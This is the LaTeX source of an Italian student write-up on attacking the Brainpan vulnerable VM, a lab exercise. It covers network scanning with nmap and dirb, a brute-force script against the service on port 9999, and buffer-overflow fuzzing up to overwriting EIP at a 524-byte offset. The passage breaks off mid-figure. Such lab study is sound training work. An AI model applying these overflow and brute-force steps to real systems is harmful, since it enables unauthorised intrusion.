\documentclass[12pt,letterpaper]{article} %add parameters to the document 
\usepackage[T1]{fontenc}
\usepackage[scaled=1.2]{beramono}
\usepackage{xcolor}
\definecolor{mygray}{gray}{0.9}
\usepackage{fvextra}
\usepackage{tcolorbox}
\usepackage{hyperref}
\usepackage{graphicx}
\usepackage{subcaption}
\hypersetup{
    colorlinks,
    citecolor=black,
    filecolor=black,
    linkcolor=black,
    urlcolor=black
}

\renewcommand{\contentsname}{Sommario}
\graphicspath{ {./images/} }



\newenvironment{code}%Codice
 {\VerbatimEnvironment
  \begin{tcolorbox}[colback=mygray, boxsep=0pt, arc=0pt, boxrule=0pt]
  \begin{Verbatim}[fontsize=\scriptsize, commandchars=\\\{\},
    breaklines, breakafter=*, breaksymbolsep=0.5em,
    breakaftersymbolpre={\,\tiny\ensuremath{\rfloor}}]}%
 {\end{Verbatim}%
  \end{tcolorbox}}

\urlstyle{rm}

\title{Brainpan hacking challenge}
\author{di Stefano Pievaioli, matr. 816592}

%------------------------------------------------------------------------- Titolo -----------------------------------------------------------------------------------------
\begin{document}
 \begin{titlepage}
 \maketitle
 \thispagestyle{empty}
 \end{titlepage}
%----------------------------------------------------------------------- Sommario -------------------------------------------------------------------------------------

\tableofcontents
\thispagestyle{empty}
\newpage


%----------------------------------------------------------------------- Introduzione -------------------------------------------------------------------------------------
\section{Introduzione}
\subsection{Obiettivo}
Brainpan è una macchina virtuale vulnerabile creata  \href{https://blog.techorganic.com/about/}{\underline {da Harold}}. Il cui obiettivo è quello di entrare nella macchina e ottenere l'accesso come root.

\subsection{Installazione VM Brainpan}
L'installazione è molto semplice è sufficiente scaricare la macchina virtuale brainpan dal sito: \\

\url{https://www.vulnhub.com/entry/brainpan_1,51/}\\

\noindent La macchina virtuale è stata testata e quindi utilizzabile sui seguenti hypervisor: 

\begin{itemize}
\item VMware Player
\item VMWare Fusion
\item VirtualBox

\end{itemize}

\noindent  Bisogna configurare la scheda rete della vm come si meglio si preferisce, io utilizzerò una di tipo di bridged in modo che che venga assegnato un indirizzo ip in DHCP dal router della mia rete in quanto utilizzerò un'altra macchina virtuale (Linux) per effettuare l'attacco.

\setcounter{page}{1}
\newpage

%----------------------------------------------------------------------Azioni Preliminari ------------------------------------------------------------------------------------
\section{Azioni preliminari}
\subsection{Identificazione della Virtual Machine}
Come prima operazione ho trovato l'indirizzo ip della macchina brainpan. Attraverso il comando:\\
\begin{code}
sudo netdiscover
\end{code}


\begin{figure}[h!]
  
\includegraphics[width=\textwidth]{netdiscover.png}
  \caption{sudo netdiscover.}
  \label{fig:netdiscover}
\end{figure}

\noindent La figura \ref{fig:netdiscover}  rappresenta l'output del comando e come possiamo notare all'indirizzo 192.168.1.142 c'è una macchina virtuale VM che probabilmente è la macchina in questione.\\
\noindent Quindi una volta saputo qual è l'indirizzo IP ho verificato se ci fosse qualche porta aperta. Grazie al comando:

\begin{code}
sudo nmap -f 192.168.1.142
\end{code}

\begin{figure}[h!]
  
\includegraphics[width=\textwidth]{nmap.png}
  \caption{sudo nmap}
  \label{fig:nmap}
\end{figure}

\noindent Nel risultato del comando (Figura \ref{fig:nmap}) possiamo notare che le porte aperte sono la 9999 e la 10000. Il comando nmap non solo verifica quali porte sono aperte ma cerca di identificare anche quale servizio ci sia. Nella porta 10000 viene identificato un servizio mgmt\footnotemark{} che potrebbe essere un server di gestione https o un servizio per la gestione dei dati.\\
Per verificare se c'è qualche sottocartella possiamo utilizzare il comando:
\begin{code}
sudo dirb http://192.168.1.142:9999  
sudo dirb http://192.168.1.142:10000
\end{code}

\begin{figure}[h!]
  \centering
  \begin{subfigure}[b]{0.49\linewidth}
    
\includegraphics[width=\linewidth]{dirb1.png}
    \caption{porta 9999}
  \end{subfigure}
  \begin{subfigure}[b]{0.49\linewidth}
    
\includegraphics[width=\linewidth]{dirb2.png}
    \caption{porta 10000}
  \end{subfigure}
  \caption{Comando sudo dirb per le due porte}
  \label{fig:dirb}
\end{figure}


Nel risultato del comando (Figura \ref{fig:dirb}) per a porta 9999 non troviamo alcuna sottocartella. Mentre per la porta 10000 troviamo un file chiamato index.html, che sarà la pagina che viene presentata all'indirizzo 192.168.1.142:10000 e più importante una sottocartella bin. E se andiamo all'indirizzo della cartella bin, (Figura \ref{fig:exe}) troviamo un eseguibile.


\begin{figure}[h!]
\begin{center}
  
\includegraphics[width=0.5\textwidth ]{exe.png}
  \caption{http://192.168.1.142:10000/bin/}
  \label{fig:exe}
  \end{center}
\end{figure}


\footnotetext{  \url{https://svn.nmap.org/nmap/nmap-services} possiamo vedere tutti i servizi identificabili dal comando nmap.} 
\newpage

\subsection{L'eseguibile}
Una volta scaricato l'eseguibile, ho subito cercato un modo per poterlo eseguire su linux. Dopo alcune ricerche\footnotemark{}  il programma più utilizzato è wine\footnotemark{}, che è anche il più consigliato.\\
Wine, acronimo di "Wine Is Not an Emulator", è il programma che permet-te di eseguire applicazioni Windows su diversi sistemi operativi compatibili con POSIX, come Linux, macOS e BSD. Diversamente da altri programmi Wine non crea una macchina virtuale/emulatore di Windows ma converte le chiamate API di Windows in chiamate POSIX consentendo di integrare le applicazioni Windows.\\
Eseguendo il comando:

\begin{code}
wine brainpan.exe
\end{code}

\noindent Il risultato:\\

\begin{figure}[h!]
\begin{center}
  
\includegraphics[width=0.8\textwidth ]{wineBrainpan1.png}
  \caption{ Comando wine}
  \label{fig:wBp1}
  \end{center}
\end{figure}

\noindent Nella Figura \ref{fig:wBp1} notiamo che all'esecuzione dell'eseguibile viene creato un server socket alla porta 9999, ed è in attesa di una connessione.\\
Attraverso il comando:
\begin{code}
nc 127.0.0.1 9999
\end{code}
\noindent Instauriamo una connessione alla porta 9999 della nostra macchina. Ottenendo: 

\begin{figure}[h!]
\begin{center}
  
\includegraphics[width=\textwidth ]{wineBrainpan.png}
  \caption{ Connessione al servizio}
  \label{fig:wBp2}
  \end{center}
\end{figure}

\noindent La connessione è stata creata con successo e la risposta dal servizio è un immagine con la scritta brainpan e la richiesta di una password (Figura \ref{fig:wBp2}). 


\addtocounter{footnote}{-2} 
 \stepcounter{footnote}\footnotetext{Come per esempio: \url{https://www.nwlapcug.com/come-aprire-i-file-exe-su-linux/}}
 \stepcounter{footnote}\footnotetext{ \url{https://www.winehq.org/}}

\newpage

%---------------------------------------------------------------------- Brute Force ------------------------------------------------------------------------------------------

\section{Attacco Brute Force} 
Dato che appena viene crea una connessione con l'eseguibile esso richiede una password, la mia prima idea è stata quella di provare un attacco brute force.
\subsection{Cos'è  un attacco Brute Force?}

Un attacco Brute Force è un metodo di hacking che utilizza tentativi ed errori per decifrare password, credenziali di accesso e chiavi di crittografia. È una tattica molto semplice ma affidabile per ottenere l'accesso non autorizzato agli account individuali e ai sistemi e alle reti delle organizzazioni. L'attacco consiste nel provare più nomi utente e/o password, utilizzando un software che continua a cambiare le combinazioni, finché non trova le informazioni corrette.\\
Il nome Brute Force deriva da aggressori che utilizzano tentativi eccessivamente violenti per ottenere l'accesso agli account utente. Nonostante siano un vecchio metodo di attacco informatico, gli attacchi di forza bruta sono provati e testati e rimangono una tattica popolare.\\
Difendersi da questi attacchi è comunque molto semplice, basta pensare a una logica di controllo che non permetta all'utente/software di hacking di provare l'accesso in continuazione.

\subsection{Attacco}
\subsubsection{Primo Attacco}
La prima operazione che ho eseguito per raccogliere informazioni utili, è stata quella di provare le password più comuni.

\begin{figure}[h!]
  
\includegraphics[width=\textwidth]{accessDenied.png}
  \caption{Primo attacco}
  \label{fig:accDen}
\end{figure}

\noindent Da questi semplici attacchi sono riuscito ad estrapolare molte informazioni (Figura \ref{fig:accDen}).\\
Alcune utili, come il fatto che ogni volta che si inserisce una password sbaglia-ta la connessione viene chiusa, ma se si ricrea subito dopo un'altra connessione non c'è alcun controllo sul quantitativo di password sbagliate inserite. Un problema è che non c'è nessun controllo sulla lunghezza minima della password, quindi è necessario provare anche i singoli caratteri.

\subsubsection{Creazione script per Brute Force}
Date le informazioni raccolte ho deciso di creare un semplice script in Python3 per eseguire l'attacco (Figura \ref{fig:bruteforce1}).\\

\noindent Nelle righe da [6 a 10] vengono definite delle variabili, come per esempio list che è una stringa che contiene tutti i caratteri dell'alfabeto.
Lo script è composto da 3 cicli for annidati, [11 a  15] in modo da poter creare tutte le possibili combinazioni. Esempio:
 \begin{code}
a = [ 'a', 'b', 'c', ... ,'aa', 'ab', 'ac', ...]
\end{code}
\noindent Dopo aver creato la stringa istauro una connessione al programma brainpan, che si trova alla porta 9999, con il comando:
 \begin{code}
s.connect(("127.0.0.1", 9999)) 
\end{code}
\noindent Il comando successi (riga 20) mi permette di riceve qualche risposta dal servizio, che non mi interessa leggere. Dopo di che invio al servizio la password creata con il comando:
\begin{code}
s.send((psw.encode()))
\end{code}
 \noindent E aspetto la risposta dal servizio, in questo caso mi salvo la risposta e non faccio altro che verificare se all'interno della stessa compaia la stringa DENIED che indica che password è errata. Nel caso non compaia allora il software stampa a video "Access!", la password utilizzata e termina il ciclo.

\begin{figure}[h!]
  
\includegraphics[width=\textwidth]{python0.png}
  \caption{Primo attacco Brute Force}
  \label{fig:bruteforce1}
\end{figure}

\subsubsection{Utilizzo dello Script}
Attraverso il comando:
\begin{code}
python3 bruteForce.py
\end{code}
\noindent Ho avviato il programma ( Figura \ref{fig:bfattack1}) e ho aspettato alcune ore senza però successo. Ho provato a migliorare l'efficienza dello script eliminando alcune operazioni e ho aggiunto 2 processori alla macchina virtuale per provare a velocizzare un po' l'esecuzione però anche questo non mi ha permesso di trovare la password.

\begin{figure}[h!]
  \includegraphics[width=\textwidth]{bruteforce.png}
  \caption{Primo attacco Brute Force}
  \label{fig:bfattack1}
\end{figure}


\subsection{Conclusione}
Dopo numerose ore di esecuzione dello script, ho deciso di abbandonare questo tipo di attacco in quanto era troppo dispendioso; Ma sopratutto perchè mi sono accorto di una possibile vulnerabilità: Come si può vedere anche dalla Figura \ref{fig:bfattack1} l'eseguibile brainpan copia la stringa la stringa che il mio script invia in un buffer e questo potrebbe portare a un Buffer Overflow.



\vfill
\newpage

%---------------------------------------------------------------------- Buffer Overflow -------------------------------------------------------------------------------------

\section{Attacco Buffer Overflow} 
Grazie all'attacco precedente sono riuscito trovare una possibile vulnerabilità dell'eseguibile brainpan.
\subsection{Cos'è  il Buffer Overflow?}
Il Buffer Overflow è una vulnerabilità, più precisamente un errore di codifica del software che può essere sfruttata per eseguire codice malevolo. È una delle vulnerabilità di sicurezza del software più note. Ciò è in parte dovuto al fatto che uno dei linguaggi più soggetto a questa vulnerabilità è il C, un linguaggio tuttora molto utilizzato, e anche dal fatto che  le tecniche utilizzate per prevenirli sono spesso soggette a errori.\\
L'errore del software si concentra sui buffer, che sono sezioni sequenziali della memoria di calcolo che contengono temporaneamente i dati mentre vengono trasferiti tra le posizioni. Il Buffer Overflow si verifica quando la quantità di dati nel buffer supera la sua capacità di archiviazione. Quei dati extra coprono delle posizioni di memoria adiacenti sovrascrivendo i dati in quelle posizioni.\\
 L'attacco più comune consiste nel sovrascrivere la memoria in modo da far puntare la prossima istruzione a una posizione di memoria dove è stato precedentemente inserito del codice malevolo.
\subsection{Attacco}
\subsubsection{Controllo presenza Buffer Overflow}
Per controllare che vi sia un buffer overflow ho creato uno script in python. 
\begin{figure}[h!]
  \centering
  
\includegraphics[width=0.9\textwidth]{python1.png}
  \caption{Script 1, attacco Buffer Overflow}
  \label{fig:p1}
\end{figure}

\noindent Lo script (Figura \ref{fig:p1} )è molto semplice infatti viene creato un buffer e a ogni ciclo while, instaura una connessione con il servizio brainpan e invia sempre più A in modo da verificare che se con un input di una certa lunghezza il programma va in crash (overflow).


\noindent Una volta richiamato sia l'eseguibile brainpan con il comando:
 \begin{code}
wine brainpan.exe
\end{code}
\noindent E in un'altra finestra lo script:
 \begin{code}
python3 findBufferOverflow.py
\end{code}
\noindent Sono riuscito a mandare in crash il programma, confermando la presenza del buffer overflow (Figura \ref{fig:o1}).

\begin{figure}[h!]
  \centering
  
\includegraphics[width=0.9\textwidth]{overflow1.png}
  \caption{Buffer Overflow, con crash}
  \label{fig:o1}
\end{figure}

\subsubsection{Scrittura nel registro EIP}
Una volta dimostrata la presenza del buffer overflow ho modificato leggermente lo script, aggiungendo un semplice counter, in modo che stampasse a video il numero di bytes che mandavano in crash l'applicazione.
Una volta trovato il valore (521) ho modificato nuovamente il file in modo da inserire esattamente 521 "A"  per riempire il buffer e 4 "B" per sovrascrivere il registro eip\footnotemark{} (Figura \ref{fig:p2}) e delle C. L'obiettivo è quello di verificare che 521 è il corretto numero di caratteri per riempire il buffer, ottenendo nel registro sole B in esadecimale ovvero "424242".

\begin{figure}[h!]
  \centering
  
\includegraphics[width=\textwidth]{python2.png}
  \caption{Buffer Overflow con BBBB nel registro eip}
  \label{fig:p2}
\end{figure}

\noindent Ho eseguito lo script e con l'eseguibile brainpan l'ho avviato tramite ollydbg, questo particolare software è un debugger di analisi a livello di assembler a 32 bit e ti permette di vedere il valore dei registri. 

\begin{figure}[h!]
  \centering
  
\includegraphics[width=\textwidth]{ollydbg1.png}
  \caption{Buffer Overflow con BBBB nel registro eip}
  \label{fig:olly1}
\end{figure}

\begin{figure}[h!]
  \centering
  
\includegraphics[width=0.4\textwidth]{ollydbg2.png}
  \caption{Buffer Overflow, zoom figura \ref{fig:olly1}}
  \label{fig:olly2}
\end{figure}

\noindent Come si può notare dalla figura \ref{fig:olly2} il contenuto del registro eip non è corretto. 
Ma dato che nei registri precedenti trovo il valore CCCCC ripetuto varie volte, deduco che il numero di A (valore per riempire il buffer) è sbagliato e quindi cerco il corretto numero di byte per riempire il buffer.

\noindent Dopo qualche tentativo provando ad aggiungere A  riesco a trovare il valore corretto che è 524. Ri-eseguendo il codice ottengo il risultato desiderato (Figura \ref{fig:olly4}), "BBBB" nel registro EIP. 

\begin{figure}[h!]
  \centering
  
\includegraphics[width=\textwidth]{ollydbg3.png}
  \caption{Buffer Overflow, con BBBB nel registro EIP}
  \label{fig:olly3}
\end{figure}

\begin{figure}[h!]
  \centering
